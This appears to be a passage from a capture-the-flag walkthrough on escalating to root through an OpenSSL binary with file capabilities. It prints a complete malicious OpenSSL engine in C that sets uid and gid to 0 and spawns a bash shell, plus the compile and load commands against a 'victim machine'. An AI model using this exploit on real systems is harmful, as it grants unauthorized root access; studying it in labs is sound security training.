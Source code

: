 ```bash
sudo apt install libssl-dev

```
- Create "exploit.c"

```bash
#include <openssl/engine.h>
#include <stdlib.h>
#include <unistd.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 1; // Add a return value to match expected function signature
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

- Now compile it using gcc:
  
```bash
gcc -fPIC -o exploit.o -c exploit.c
gcc -shared -o exploit.so -lcrypto exploit.o

```
- Transfer from Kali to victim machine (with python)
  
```bash
chmod +x exploit.so
```

- Use the full path to openssl (as in getcap):
  
```bash
/home/system/Utils/openssl req -engine ./exploit.so

```

![image41](../resources/5e2e5afbfc604633bd895649c68bd3d3.png)

```bash
cat root.txt

```

